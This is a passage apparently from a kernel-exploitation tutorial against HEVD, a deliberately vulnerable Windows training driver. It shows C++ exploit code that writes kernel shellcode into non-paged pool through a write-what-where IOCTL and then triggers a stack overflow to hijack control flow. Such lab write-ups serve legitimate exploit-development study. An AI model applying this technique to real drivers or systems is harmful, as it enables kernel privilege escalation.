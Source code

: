 ```C++
        for (uint32_t i = 0; i < kernel_shellcode_size; i+=8) {
            uint64_t write_what_where[2] = {
                (uint64_t)kernel_shellcode + i,
                (uint64_t)non_paged_pool + i,
            };
	
            DeviceIoControl(
                hevdDevice,
                IOCTL_WRITE_WHAT_WHERE,
                write_what_where,
                0x10,
                NULL,
                0,
                NULL,
                NULL
            );
        }
	
        printf("Done!\n");
    }

    {
        const uint32_t IOCTL_STACK_OVERFLOW = 0x222003;
        const uint32_t buffer_size = 0x828;
        uint8_t buffer[buffer_size];
	
        for (uint32_t i = 0; i < buffer_size; i+=8) {
            *(uint64_t*)((uint64_t)buffer + i) = (uint64_t)non_paged_pool;
        }
	
        printf("Triggering overflow and hijacking control flow... ");
	
        DeviceIoControl(
            hevdDevice,
            IOCTL_STACK_OVERFLOW,
            buffer,
            buffer_size,
            NULL,
            0,
            NULL,
            NULL
        );
	
        printf("Done!\n");
    }
[...]
```

If we execute the exploit so far `WinDbg` should catch the breakpoint at the address we just leaked:
